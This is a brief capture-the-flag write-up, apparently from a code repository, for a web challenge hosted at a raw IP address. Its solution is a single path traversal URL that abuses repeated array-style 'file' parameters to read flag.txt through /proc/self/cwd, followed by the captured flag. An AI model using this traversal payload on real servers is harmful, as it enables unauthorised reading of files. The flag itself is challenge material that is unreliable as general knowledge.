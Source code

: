 The application:

http://43.205.178.174:8182/

I haved played this chal if previous CTFS:

Solution:
http://43.205.178.174:8182/getfile?file[]=../../&file[]=../../&file[]=../../&file[]=../../&file[]=../../proc/self/cwd/flag.txt&file[]=.&file[]=js

Flag: ctf7{sh0uld_str1ng1fy_th3_p4r4ms}
